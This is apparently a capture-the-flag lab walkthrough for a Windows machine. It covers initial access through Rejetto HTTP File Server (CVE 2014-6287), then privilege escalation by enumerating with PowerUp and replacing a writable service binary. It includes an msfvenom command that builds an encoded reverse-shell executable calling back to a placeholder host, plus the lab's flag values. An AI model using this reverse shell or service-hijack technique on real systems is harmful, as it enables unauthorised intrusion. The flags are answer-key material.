










## **Introduction**

## **Initial Access**

8080

Rejetto HTTP File Server

2014-6287

b04763b6fcf51fcd7c13abc7db4fd365

## **Privilege Escalation**

Now that you have an initial shell on this Windows machine as Bill, we can further enumerate the machine and escalate our privileges to root!

To enumerate this machine, we will use a powershell script called PowerUp, that's purpose is to evaluate a Windows machine and determine any abnormalities - "_PowerUp aims to be a clearinghouse of common Windows privilege escalation_ _vectors that rely on misconfigurations._"

You can download the script [here](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1).  If you want to download it via the command line, be careful not to download the GitHub page instead of the raw script. Now you can use the **upload** command in Metasploit to upload the script.

AdvancedSystemCareService9

The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!

Use msfvenom to generate a reverse shell as an Windows executable.

`msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe`

Upload your binary and replace the legitimate one. Then restart the program to get a shell as root.

**Note:** The service showed up as being unquoted (and could be exploited using this technique), however, in this case we have exploited weak file permissions on the service files instead.  

cd C:\Users\Administrator\Desktop  
type root.txt
`9af5f314f57607c00fd09803a587db80`